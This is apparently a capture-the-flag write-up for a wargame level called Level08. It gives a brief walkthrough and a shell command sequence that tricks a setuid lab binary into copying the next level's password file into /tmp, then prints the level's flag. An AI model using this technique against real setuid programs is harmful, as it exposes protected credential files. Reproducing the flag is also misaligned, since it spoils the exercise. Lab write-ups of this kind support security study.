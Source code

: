 ## Level08
## Source Code
![level08.png](level08.png)
## Walkthrough
- We will use the difference between `fopen` and `open` to change the permissions of the level09 pass file.
## Answer
    cd /tmp
    mkdir backups
    touch backups/.log
    chmod 777 backups/.log
    mkdir -p home/users/level09
    /home/users/level08/level08 ../home/users/level09/.pass
    cat home/users/level09/.pass
## Flag

	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
